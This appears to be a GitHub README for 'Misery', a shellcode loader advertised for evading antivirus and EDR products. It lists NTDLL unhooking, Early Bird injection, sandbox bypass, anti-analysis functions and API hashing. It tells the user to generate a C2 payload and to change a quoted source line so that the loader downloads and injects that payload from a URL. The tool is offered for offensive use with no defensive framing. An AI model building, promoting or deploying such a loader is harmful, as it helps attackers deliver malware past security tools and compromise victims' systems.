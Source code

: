 # Misery (Evade Av Like Taxes)
## Misery Loader to bypass modern EDR solutions 🖥️ 🛠️
![miserybanner](https://i.imgur.com/yCk788y.jpeg)

## Misery is a code injector with some features
   * 🪝 Unhook NTDLL from suspended process
   * 💉 Early Bird Injection
   * 📦 Sandbox bypass (Api Hammering) ⚒️
   * 🚫 Anti Analysis Functions
   * 😈 Compile Time API Hashing with HashStringJenkins algorithm
---

### 📁 Generate the payload with the c2 of your choice(*.bin)
### 🥷 If you want debug output, uncomment all printf lines
### 🏷️Change line 268 -> LPCWSTR szUrl = L"http://127.0.0.1/demon.x64.bin"



